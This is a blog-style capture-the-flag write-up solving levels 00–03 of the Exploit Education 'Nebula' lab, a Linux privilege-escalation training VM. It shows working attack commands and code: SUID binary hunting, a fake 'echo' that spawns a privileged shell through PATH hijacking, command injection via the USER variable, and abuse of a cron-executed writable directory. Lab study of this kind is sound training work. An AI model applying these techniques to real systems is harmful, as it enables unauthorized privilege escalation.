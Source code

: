 ```yaml
---
layout: post
title: "Exploit Education - Nebula"
category: writeups
mathjax: true

date: 2022-01-23
---
```


_Nebula takes the participant through a variety of common (and less than common) weaknesses and vulnerabilities in Linux. It takes a look at SUID files, Permissions. Race conditions, Shell meta-variables, $PATH weaknesses, Scripting language weaknesses
Binary compilation failures._

<!--more-->

## **Description**

Name: Nebula

Tested: Virtualbox

## **Details**

Machine Link: https://exploit.education/nebula/

Category: Exploit Education

## **Solution**

### Level00

Task: This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Solution:

We used `find` to find out suid binaries.

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
```

We found the following specific binaries

```
/bin/.../flag00
/rofs/bin/.../flag00
```

They seem to be same files.

```
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

### Level01

Task: There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

Solution:

We have been given following source code of the program

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

By looking at the `system` command, we can see that `echo` is being called without its absolute path, so we can abuse this. First we create a `echo.c` file in the home directory with following contents

```
#include <stdlib.h>
#include <unistd.h>

int main(){
    setuid(0);
    system("/bin/sh -p");
}
```

Then we compile it to create a spoofed echo program

```
gcc echo.c -o echo
```

Finally, we add our `home` directory in the `PATH` variable using

```
export PATH=:/home/level01/:$PATH
```

This allows us to execute our malicious `echo` program instead of the correct one.

Finally, by running the program, we get a shell with privilege of user `flag01`

```
level01@nebula:~$ ../flag01/flag01
sh-4.2:$ whoami
flag01
sh-4.2:$ getflag
You have successfully executed getflag on a target account
```

### Level02

Task: There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

Solution:

We have been given following source code of the program

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

By looking at the `asprintf` function, it is calling `getenv` to get `USER` value from the `env`. We can call the program with custom `USER` value to do a command injection attack and get the user `flag02` flag.

```
level02@nebula:~$ env USER="1llus1on ; getflag" ../flag02/flag02
about to call system("/bin/echo 1llus1on ; getflag is cool")
1llus1on
You have successfully executed getflag on a target account
```

### Level03

Task: Check the home directory of flag03 and take note of the files there. There is a crontab that is called every couple of minutes.

Solution:

First, we list files in `/home/flag03` and found the following files

```
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
```

The directory is empty but the shell script contains the following content

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

For each file in the directory,

- ulimit -5 t - allow a maximum of 5 seconds in cpu time
- bash -x "$i" - execute shell script and print commands executed
- rm -f "$i" - force delete file

So we write a script in the `writeable.d` directory and wait for it to be executed. The script contains following content

```
getflag > /home/flag03/myflag
```

Now we wait till cron executes the crontab.

We can also use `watch` command to watch `/writable.d` for when the file is deleted i.e crontab executed.

```
watch ls -l writable.d
level03@nebula:/home/flag03$ ls
myflag  writable.d  writable.sh
level03@nebula:/home/flag03$ cat myflag
You have successfully executed getflag on a target account
```
